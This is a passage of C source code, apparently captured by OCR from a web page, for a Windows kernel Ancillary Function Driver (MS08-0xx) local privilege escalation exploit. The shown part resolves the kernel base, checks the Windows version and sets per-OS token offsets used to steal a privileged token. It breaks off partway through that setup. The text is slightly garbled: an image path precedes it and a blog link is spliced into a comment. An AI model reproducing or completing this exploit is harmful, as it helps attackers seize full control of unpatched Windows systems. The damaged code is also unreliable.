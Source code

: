 struct sockaddr_in saddr;

printf("
MS08-0xx Windows Kernel Ancillary Function Driver Local Privilege Escalation Vulnerability Exploit
");
printf(" Create by SoBeIt.
");
if(argc != 1)
{
printf(" Usage:%s
", argv[0]);
return 1;
}

pFakeKernelInfo = (PULONG)malloc(256);

GetFunction();

if(ZwQueryInformationProcess(GetCurrentProcess(), ProcessBasicInformation, (PVOID)&pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL))
ErrorQuit("ZwQueryInformationProcess failed
");

KernelBase = GetKernelBase(KernelName);
if(!KernelBase)
ErrorQuit("Unable to get kernel base address.
");

printf("Kernel base address: %x
", KernelBase);

ovi.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);

if(!GetVersionEx(&ovi))
ErrorQuit("GetVersionEx failed.
");

if(ovi.dwMajorVersion != 5 && ovi.dwMajorVersion != 6)
ErrorQuit("Not Windows NT family OS.
");

printf("Major Version:%d Minor Version:%d
", ovi.dwMajorVersion, ovi.dwMinorVersion);
switch(ovi.dwMinorVersion)
{
case 0:                                                //Windows2000
SystemId = 8;
TokenOffset = 0x12c;
break;

case 1:                                                //[WindowsXP](/blog/deepin-litexp-windows-xp-sp3-v62)
SystemId = 4;
TokenOffset = 0xc8;
break;
